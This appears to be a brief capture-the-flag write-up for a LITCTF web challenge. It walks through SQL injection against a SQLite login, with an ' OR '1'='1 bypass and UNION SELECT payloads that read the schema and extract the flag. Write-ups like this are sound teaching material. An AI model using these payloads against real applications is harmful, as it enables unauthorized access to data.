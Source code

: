 Write-up:

1. Looking at the source code, we see the login input isn't protected against SQLi, and that
the database is SQLite. After creating a `admin:admin` user, logging in with 
`admin:' OR '1'='1` proves to be successful.

2. Using `' UNION SELECT sqlite_version()--` as the `username` shows us this is SQLite v.3.45.1.
`' UNION SELECT name FROM sqlite_schema WHERE type='table'--` shows us the table that contains the flag: <br> `aPykoNViNvF20ZlQ5Trntl079TS22XlPCizUNsgYcTkIdF9MSvtZeuWZSvI2vpGglxndFkpXB1TXeIBiuPy1bkc8TT2WlpwkuzKyh`

3. `' UNION SELECT flag FROM aPykoNViNvF20ZlQ5Trntl079TS22XlPCizUNsgYcTkIdF9MSvtZeuWZSvI2vpGglxndFkpXB1TXeIBiuPy1bkc8TT2WlpwkuzKyh--` returns the flag: `LITCTF{w04h_sQl?_l0v3_to_S3e_iT}`